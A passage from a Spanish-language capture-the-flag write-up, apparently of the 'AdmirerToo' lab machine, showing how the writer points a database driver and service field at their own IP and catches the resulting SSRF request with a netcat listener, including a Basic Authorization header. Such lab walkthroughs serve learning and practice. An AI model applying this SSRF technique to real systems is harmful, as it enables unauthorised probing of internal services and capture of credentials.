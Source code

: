 ![imagen4](/assets/images/AdmirerTwo/admirer4.png)

![imagen5](/assets/images/AdmirerTwo/admirer5.png)

Cambiamos el campo de driver por elastic y el campo service por nuestra ip para ver si con nc nos arroja alguna conexión.

```shell
❯ sudo nc -lnvp 80
listening on [any] 80 ...
connect to [10.10.14.22] from (UNKNOWN) [10.10.11.137] 47934
GET / HTTP/1.0
Authorization: Basic YWRtaXJlcl9ybzo=
Host: 10.10.14.22
Connection: close
Content-Length: 2
Content-Type: application/json
```
En este punto tenemos un SSRF exitoso pero en este punto no nos podría servir de mucho a menos que tuvieron algún puerto donde no podamos visualizar externamente. Hacemos un escaneo con nmap para revisar puerto filtrados.
